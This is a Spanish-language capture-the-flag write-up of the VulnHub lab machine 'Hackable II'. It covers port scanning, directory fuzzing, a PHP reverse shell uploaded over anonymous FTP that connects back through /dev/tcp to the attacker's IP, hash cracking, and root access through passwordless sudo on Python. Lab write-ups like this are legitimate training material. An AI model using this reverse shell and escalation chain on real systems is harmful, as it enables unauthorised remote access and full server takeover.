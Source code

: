```yaml
---
title: Hackable II
date: 2024-07-03
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.151 -n -Pn -v
```

![picture](/assets/images/vulnhub/hackable1.png){: w="600" h="300" }

Una vez realizado el escaneo, realizaremos un escaneo exhaustivo de los puertos encontrados, para ver si podemos encontrar algo más mediante los scripts de NMAP.

```bash
nmap -p21,22,80 -sV -sC 192.168.1.151 -v 
```

![picture](/assets/images/vulnhub/hackable2.png){: w="600" h="300" }

Encontramos que el usuario **Anonymous** está habilitado, y su directorio contiene un archivo llamado "*CALL.html*".

A continuación, lo descargaremos y veremos que contiene.

![picture](/assets/images/vulnhub/hackable3.png)

En un principio no parece haber nada relevante.

![picture](/assets/images/vulnhub/hackable4.png){: w="600" h="300" }

En la web hay una página por defecto de **Apache2**, y buscando información filtrada o comentada en la fuente de la página, encontramos lo siguiente.

![picture](/assets/images/vulnhub/hackable5.png)

Lo siguiente será realizar **Fuzzing** con **Gobuster** para ver que encontramos.

```bash
gobuster dir -u http://192.168.1.151/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403 
```

![picture](/assets/images/vulnhub/hackable6.png)

Encontramos la ruta "**/files/**", y comprobamos que es el mismo directorio que el que usa el usuario **Anonymous**.

![picture](/assets/images/vulnhub/hackable7.png){: w="600" h="300" }

---

## **Explotación**

Ya que el directorio que hemos encontrado, es el mismo que el de **Anonymous**, y lo podemos encontrar en el navegador, hay una vía potencial de subir un archivo **PHP** y que nos lo ejecute, así que subiremos una **Reverse Shell** simple, mediante **FTP**, para poder ejecutarla desde el navegador.

- *Reverse Shell*

    ```php
    <?php
    exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
    ?>
    ```

![picture](/assets/images/vulnhub/hackable8.png)

Antes de ejecutarla, crearemos un **Listener** con **Ncat** en nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```

Actualizamos la web una vez subamos el archivo, y clicamos en el archivo.

![picture](/assets/images/vulnhub/hackable9.png){: w="600" h="300" }

Y obtendremos acceso al servidor como el usuario "**www-data**".

---

## **Escalada de privilegios**

En el directorio *"/home/"* encontramos un archivo que nos indica que ejecutemos un *script*, y la carpeta personal de un usuario llamado **shrek**.

![picture](/assets/images/vulnhub/hackable10.png){: w="600" h="300" }

Si vemos el contenido del script, podemos comprobar que no hace nada, simplemente saca output por terminal, pero abajo podemos encontrar lo que parece una contraseña hasheada.

![picture](/assets/images/vulnhub/hackable11.png){: w="600" h="300" }

Nos vamos a [**Crackstation**](https://crackstation.net), e introducimos la contraseña, y nos la deshasea.

![picture](/assets/images/vulnhub/hackable12.png)

Intentamos acceder mediante **SSH**, y obtenemos acceso como el usuario "**shrek**". (También funciona con **su shrek**)

![picture](/assets/images/vulnhub/hackable13.png){: w="600" h="300" }

En su directorio personal, tenemos la primera **flag**.

![picture](/assets/images/vulnhub/hackable14.png){: w="600" h="300" }

Comprobando los permisos de **SUDO** del usuario "**shrek**", comprobamos que no necesita contraseña al ejecutar Python3.5 con permisos de **SUDO**.

Para escalar privilegios al usuario root, ejecutaremos lo siguiente.

```bash
sudo python3.5
```
Y dentro de **Python3.5**.

```python
import os
os.setuid(0)
os.system("whoami")
os.system("/bin/bash")
```

![picture](/assets/images/vulnhub/hackable15.png){: w="600" h="300" }

Y en el directorio personal de root, tenemos la segunda **flag**.

![picture](/assets/images/vulnhub/hackable16.png){: w="600" h="300" }